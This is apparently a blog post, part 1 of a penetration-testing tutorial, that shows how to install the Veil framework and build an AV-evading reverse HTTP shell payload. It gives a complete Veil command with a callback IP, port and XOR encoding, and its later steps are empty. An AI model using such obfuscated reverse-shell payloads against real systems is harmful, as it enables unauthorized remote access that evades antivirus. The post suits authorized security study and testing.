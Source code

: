 +++
title = "Reverse Shell with Code Obfuscating Part 1 of 2"
date = 2018-01-06T19:15:55-05:00
draft = false
comments = true
categories = ["Security OS", "Tools"] 
description = "" 
tags = ["encryption", "kali", "persistence"]
image = "/img/remote-shell/code-obfuscating.jpg"

+++

## Reverse Shell with Code Obfuscating Part 1 of 2

Veil is the union of two programs, Veil-Evasion and Veil-Ordnance. ...

### Create the payload using the Veil Framework

1. Download Veil `sudo apt-get update && sudo apt-get install veil`. It may take a while, it will download a lot of dependencies like ... Veil should be located in /usr/share/veil.

2. To list Veil-Evasion payloads `./Veil.py -t Evasion --list-payloads`. To create the payload, we can use the Veil command line `./Veil.py -t Evasion -p 29 --ordnance-payload rev_http --ip 192.168.0.101 --port 19370 -e xor -b \\x00\\x0a -o filename` where 29 corresponds to the /python/shellcode_inject/aes_script payload.

3. `` 

4. ``
